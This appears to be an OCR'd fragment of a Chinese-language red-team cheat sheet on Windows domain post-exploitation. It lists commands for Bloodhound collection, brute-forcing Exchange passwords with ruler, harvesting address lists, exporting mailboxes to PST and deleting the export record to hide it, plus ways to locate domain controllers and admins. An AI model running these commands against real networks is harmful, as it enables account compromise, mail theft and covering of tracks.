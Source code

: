 		- 敏感文件

			- \\domain\Netlogon

- 自动化信息收集

	- Seatbelt
	- Bloodhound

		- SharpHound.exe  -c all

- Exchange

	- 邮箱用户密码爆破 - 次数过多会导致域用户锁定

		- ./ruler  --domain targetdomain.com brute --users /path/to/user.txt --passwords  /path/to/passwords.txt

	- 通讯录收集

		- Get-GlobalAddressList  -ExchHostname mail.domain.com -UserName domain\username -Password Fall2016  -OutFile global-address-list.txt

	- 信息收集

		- 获取所有邮箱用户

			- Get-Mailbox

		- 导出邮件

			- New-MailboxexportRequest  -mailbox username -FilePath ("\\localhost\c$\test\username.pst")

		- web口导出

			- https://mail.domain.com/ecp/

		- 导出会有记录

			- Get-MailboxExportRequest

		- 删除某个导出记录

			- Remove-MailboxExportRequest  -Identity 'username\mailboxexport' -Confirm:$false

- 域相关操作

	- 判断DNS和域控是否为同一服务器:
ipconfig /all查看DNS后缀
nslookup DNS后缀
	- 定位域控

		- net time /domain
		- nltest /DCLIST:domainname
		- Nslookup -type=SRV _ldap._tcp
		- net group "Domain Controllers" /domain

	- 定位域管

		- 工具

			- psloggedon.exe、pveFindADUser.exe、netsess.exe、hunter、NetView、PowerView
